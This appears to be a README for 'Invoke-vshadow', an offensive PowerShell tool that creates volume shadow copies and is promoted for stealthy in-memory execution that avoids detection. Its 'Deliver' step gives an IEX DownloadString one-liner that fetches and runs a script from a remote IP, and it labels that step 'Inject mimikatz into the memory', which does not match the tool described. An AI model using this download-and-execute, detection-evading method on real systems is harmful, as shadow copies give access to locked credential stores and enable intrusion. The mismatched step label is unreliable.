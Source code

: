 # Invoke-vshadow
Using Invoke-vshadow in PowerShell offers stealthy in-memory execution that avoids detection by not writing files to
disk, making it ideal for security assessments with minimal system footprint. The script creates a shadowcopy and outputs detailed information about it. Basically it provides the functionality of 'vshadow.exe -nw -p' within PowerShell.

## Deliver
1. Start a Powershell with administrative privileges
2. Inject mimikatz into the memory:
```
IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.165/Invoke-vshadow.ps1')
```

## Usage
```
Invoke-vshadow -volume 'C:\'
```
